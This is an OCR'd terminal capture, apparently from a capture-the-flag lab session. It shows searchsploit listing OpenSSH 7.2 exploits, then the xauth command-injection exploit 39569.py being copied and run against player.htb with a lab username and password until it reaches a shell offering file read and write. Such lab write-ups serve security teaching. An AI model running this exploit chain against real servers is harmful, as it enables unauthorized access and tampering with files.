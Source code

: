 root@kali:~/Downloads# searchsploit openssh 7.2  
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------  
Exploit Title | Path  
| (/usr/share/exploitdb/)  
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------  
OpenSSH 7.2 - Denial of Service | exploits/linux/dos/40888.py  
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection | exploits/multiple/remote/39569.py  
OpenSSH 7.2p2 - Username Enumeration | exploits/linux/remote/40136.py  
OpenSSHd 7.2p2 - Username Enumeration | exploits/linux/remote/40113.txt  
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------  
Shellcodes: No Result  
root@kali:~/Downloads# searchsploit -m exploits/multiple/remote/39569.py  
Exploit: OpenSSH 7.2p1 - (Authenticated) xauth Command Injection  
URL: https://www.exploit-db.com/exploits/39569  
Path: /usr/share/exploitdb/exploits/multiple/remote/39569.py  
File Type: troff or preprocessor input, ASCII text, with very long lines, with CRLF line terminators

Copied to: /root/Downloads/39569.py

root@kali:~/Downloads# python 39569.py  
Usage: <host> <port> <username> <password or path_to_privkey>

path_to_privkey - path to private key in pem format, or '.demoprivkey' to use demo private key

root@kali:~/Downloads# python 39569.py player.htb 6686 telegen 'd-bC|jC!2uepS/w'  
INFO:__main__:connecting to: telegen:d-bC|jC!2uepS/w@player.htb:6686  
Traceback (most recent call last):  
File "39569.py", line 462, in <module>  
timeout=10  
File "39569.py", line 360, in __init__  
look_for_keys=False, pkey=pkey)  
File "/usr/lib/python2.7/dist-packages/paramiko/client.py", line 446, in connect  
passphrase,  
File "/usr/lib/python2.7/dist-packages/paramiko/client.py", line 764, in _auth  
raise saved_exception  
paramiko.ssh_exception.AuthenticationException: Authentication timeout.  
root@kali:~/Downloads# clear  
root@kali:~/Downloads# python 39569.py player.htb 6686 telegen 'd-bC|jC!2uepS/w'  
INFO:__main__:connecting to: telegen:d-bC|jC!2uepS/w@player.htb:6686  
INFO:__main__:connected!  
INFO:__main__:  
Available commands:  
.info  
.readfile <path>  
.writefile <path> <data>  
.exit .quit  
<any xauth command or type help>
